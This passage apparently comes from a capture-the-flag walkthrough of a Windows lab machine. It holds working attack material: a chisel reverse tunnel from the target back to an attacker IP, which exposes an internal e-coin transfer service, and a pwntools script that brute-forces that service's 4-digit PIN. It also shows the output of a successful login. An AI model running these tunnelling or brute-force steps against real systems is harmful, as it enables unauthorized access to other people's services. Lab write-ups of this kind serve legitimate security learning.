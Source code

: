 - Let's download `chisel` and create a tunnel
```
└─$ ./chisel server -p 9001 --reverse
2023/10/03 18:03:11 server: Reverse tunnelling enabled
2023/10/03 18:03:11 server: Fingerprint HvsTMAj3j0sUjT7CkUkDfAhNbQg520kRgOKzSx8leuE=
2023/10/03 18:03:11 server: Listening on http://0.0.0.0:9001
```
```
PS C:\ProgramData> .\chisel.exe client 10.10.16.9:9001 R:9100:localhost:910
.\chisel.exe client 10.10.16.9:9001 R:9100:localhost:910

```

- To test we can `nc` to port `9100` on our attack box
```
└─$ nc localhost 9100
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 4833 
 [!] Access denied, disconnecting client....

```

- We can try bruteforcing the `PIN`
```
from pwn import *

for i in range(10000):
  pin = "0" * (4 - len(str(i))) + str(i)
  r = remote("127.0.0.1", 9100) 
  r.recvuntil("[$]")
  r.sendline(pin)    
  result = r.recvline()
  r.close()

  if b"[!] Access denied" not in result:
    print("[+] PIN found =>", pin)
    break

```

- Run the script
  - It behaves the same despite entering the chars
```
└─$ python3 brute-force-pin.py
[+] PIN found => 0021
```

- After entering the pin, we have a new prompt asking for amount to transfer
```
└─$ nc localhost 9100
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] 12
 [$] Transfering $12 using our e-coin transfer application. 
 [$] Executing e-coin transfer tool: C:\Users\admin\Documents\transfer.exe
```